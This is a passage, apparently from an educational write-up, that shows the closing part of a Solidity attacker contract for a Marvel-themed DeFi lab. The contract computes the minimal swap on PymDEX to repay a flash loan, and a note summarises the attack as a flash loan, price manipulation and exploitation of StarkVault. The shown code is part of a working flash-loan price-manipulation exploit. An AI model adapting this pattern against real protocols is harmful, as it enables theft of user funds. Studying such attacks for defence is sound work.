 ```solidity
            uint256 swapBalance = swapFrom.balanceOf(address(this));

            uint256 left = 1;
            uint256 right = swapBalance;
            uint256 minSwap = right;
            bool enough = false;

            while (left <= right) {
                uint256 mid = (left + right) / 2;
                uint256 out;
                if (address(repayToken) == address(tokenA)) {
                    out = (pym.reserveA() * mid) / (pym.reserveB() + mid);
                } else {
                    out = (pym.reserveB() * mid) / (pym.reserveA() + mid);
                }

                if (out >= needed) {
                    minSwap = mid;
                    right = mid - 1;
                    enough = true;
                } else {
                    left = mid + 1;
                }
            }

            if (enough) {
                swapFrom.approve(address(pym), minSwap);
                if (address(repayToken) == address(tokenA)) pym.swapExactBForA(minSwap, address(this));
                else pym.swapExactAForB(minSwap, address(this));
            } else if (swapBalance > 0) {
                swapFrom.approve(address(pym), swapBalance);
                if (address(repayToken) == address(tokenA)) pym.swapExactBForA(swapBalance, address(this));
                else pym.swapExactAForB(swapBalance, address(this));
            }
        }

        // Transfer repayment
        uint256 repayFinal =
            repayToken.balanceOf(address(this)) < repayAmount ? repayToken.balanceOf(address(this)) : repayAmount;
        if (repayFinal > 0) {
            repayToken.transfer(msg.sender, repayFinal);
        }
    }
}
```

---
>[!NOTE]
This is the attacker’s script. It does three things in sequence:
1. Takes out a flash loan (Ant-Man grabbing liquidity from the Quantum Realm).
2. Uses it to manipulate the PymDEX price.
3. Calls StarkVault to borrow or liquidate while the price is skewed.
